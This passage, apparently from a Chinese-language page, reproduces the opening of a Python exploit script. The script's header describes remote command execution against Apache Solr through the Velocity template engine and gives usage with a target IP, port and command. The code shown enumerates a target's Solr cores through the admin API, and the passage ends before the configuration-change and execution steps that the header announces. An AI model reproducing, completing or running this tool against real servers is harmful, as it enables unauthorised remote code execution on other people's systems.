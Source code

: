 ### 使用脚本检测

    auth: @l3_W0ng
    version: 1.0
    function: Apache Solr RCE via Velocity template
    usage: python3 script.py ip [port [command]]
                   default port=8983
                   default command=whoami
    note:
    Step1: Init Apache Solr Configuration
    Step2: Remote Exec in Every Solr Node
    """


    import sys
    import json
    import time
    import requests


    class initSolr(object):

        timestamp_s = str(time.time()).split('.')
        timestamp = timestamp_s[0] + timestamp_s[1][0:-3]

        def __init__(self, ip, port):
            self.ip = ip
            self.port = port

        def get_nodes(self):
            payload = {
                '_': self.timestamp,
                'indexInfo': 'false',
                'wt': 'json'
            }
            url = 'http://' + self.ip + ':' + self.port + '/solr/admin/cores'

            try:
                nodes_info = requests.get(url, params=payload, timeout=5)
                node = list(nodes_info.json()['status'].keys())
                state = 1
            except:
                node = ''
                state = 0

            if node:
                return {
                    'node': node,
                    'state': state,
                    'msg': 'Get Nodes Successfully'
                }
            else:
                return {
                    'node': None,
                    'state': state,
                    'msg': 'Get Nodes Failed'
                }
